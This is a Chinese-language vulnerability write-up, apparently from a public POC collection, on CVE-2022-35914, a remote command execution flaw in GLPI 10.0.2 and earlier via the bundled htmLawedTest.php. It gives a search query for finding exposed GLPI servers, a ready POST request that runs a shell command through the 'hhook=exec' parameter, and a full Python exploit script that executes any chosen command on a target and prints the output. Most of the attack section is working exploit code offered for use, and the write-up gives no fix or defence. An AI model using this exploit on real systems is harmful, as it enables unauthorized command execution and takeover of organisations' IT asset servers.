







# GLPI htmLawedTest.php 远程命令执行漏洞 CVE-2022-35914

## 漏洞描述

GLPI是个人开发者的一款开源IT和资产管理软件。该软件提供功能全面的IT资源管理接口，你可以用它来建立数据库全面管理IT的电脑，显示器，服务器，打印机，网络设备，电话，甚至硒鼓和墨盒等。GLPI 10.0.2及之前版本存在安全漏洞，该漏洞源于htmlawed 模块中的 `/vendor/htmlawed/htmlawed/htmLawedTest.php` 允许 PHP 代码注入。

## 漏洞影响

```
GLPI 10.0.2及之前版本
```

## 网络测绘

```
title="GLPI"
```

## 漏洞复现

登录页面



出现问题的文件为 **htmLawedTest.php，** 来源于第三方库 PHP Labware



```
https://www.bioinformatics.org/phplabware/internal_utilities/htmLawed/
```

在 htmLawedTest.php 中接收参数并传入方法 htmLawed 中



跟进文件 htmLawed.php 中



```
if($C['hook']){$t = $C['hook']($t, $C, $S);}
```

这里可以看到参数均为用户可控参数，当控制参数 hhook 为 exec 和 text 为执行的命令时就导致了命令执行漏洞



验证POC

```
/vendor/htmlawed/htmlawed/htmLawedTest.php
```




访问页面获取到 sid 与 token 后再发送请求包

```
POST /vendor/htmlawed/htmlawed/htmLawedTest.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 88
Content-Type: application/x-www-form-urlencoded

token=a79cf121bde57fe0e3cc0f247f77961a&text=id&hhook=exec&sid=h1c0vk004dvulal5nj8i6en44e
```



## 漏洞POC

- https://github.com/cosad3s/CVE-2022-35914-poc

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

import argparse
from bs4 import BeautifulSoup
import requests
import sys
import re

requests.packages.urllib3.disable_warnings() 

RED = '\x1b[91m'
BLUE = '\033[94m'
GREEN = '\033[32m'
ENDC = '\033[0m'

banner="""  
  ______     _______     ____   ___ ____  ____      _________  ___  _ _  _   
 / ___\ \   / / ____|   |___ \ / _ \___ \|___ \    |___ / ___|/ _ \/ | || |  
| |    \ \ / /|  _| _____ __) | | | |__) | __) |____ |_ \___ \ (_) | | || |_ 
| |___  \ V / | |__|_____/ __/| |_| / __/ / __/_____|__) |__) \__, | |__   _|
 \____|  \_/  |_____|   |_____|\___/_____|_____|   |____/____/  /_/|_|  |_|  
"""

def main():
    print(banner)
    parser = argparse.ArgumentParser(description='CVE-2022-35914 - GLPI - Command injection using a third-party library script')
    parser.add_argument('-u', type=str, required=True, dest='url', help = "URL to test")
    parser.add_argument('-c', type=str, required=False, dest='cmd', default = "id", help = "Command to launch (default: id)")
    parser.add_argument('-f', type=str, required=False, dest='hook', default = "exec", help = "PHP hook function (default: exec)")
    parser.add_argument('--check', action="store_true", dest='check', help = "Just check, no command execution.")
    parser.add_argument('--user-agent', type=str, required=False, default="Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36", dest='user_agent', help = "Custom User-Agent")
    args = parser.parse_args()
    exploit(args.url, args.cmd, args.user_agent,args.check,args.hook)

def exploit(url,cmd,user_agent,check,hook):
    uri = "/vendor/htmlawed/htmlawed/htmLawedTest.php"
    headers = {'User-Agent': user_agent}

    session = requests.Session()
    response_part1 = session.get(str(url)+uri, verify=False, headers=headers)
    if (response_part1.status_code != 200):
        fail()
    
    soup = BeautifulSoup(response_part1.text, 'html.parser')
    if (soup.title.text.find("htmLawed") == -1):
        fail()

    if (check):
        print(GREEN + "[+] Server potentially vulnerable to CVE-2022-35914" + ENDC)
        sys.exit()

    # Prepare POST request
    token_value = soup.find_all(id='token')[0]['value']
    sid_value = session.cookies.get("sid")
    body = {"token":token_value,"text":cmd,"hhook":hook,"sid":sid_value}
    response_part2 = session.post(str(url)+uri, verify=False, headers=headers, data=body)
    parse(response_part2.text)

def parse(response):
    soup = BeautifulSoup(response, 'html.parser')
    raw = soup.find_all(id='settingF')[0]

    return_code_search_regex = "\$spec\: (.*)"
    found_return_code = re.search(return_code_search_regex, raw.text, re.DOTALL).group(1)

    output_search_regex = "\[xml:lang\] \=\> 0\n(.*)\n\)"
    found_output = re.search(output_search_regex, raw.text, re.DOTALL)
    print(GREEN + "[+] Command output (Return code: " + found_return_code + "):" + ENDC)
    if (found_output != None):
        raw_output = found_output.group(1)
        cleaning_regex = ".*\=\>"
        cleaned_output = re.sub (cleaning_regex, "", raw_output)
        print(cleaned_output)

def fail():
    print(RED + "[-] Server not vulnerable to CVE-2022-35914" + ENDC)
    sys.exit()

if __name__ == '__main__':
    main()
```

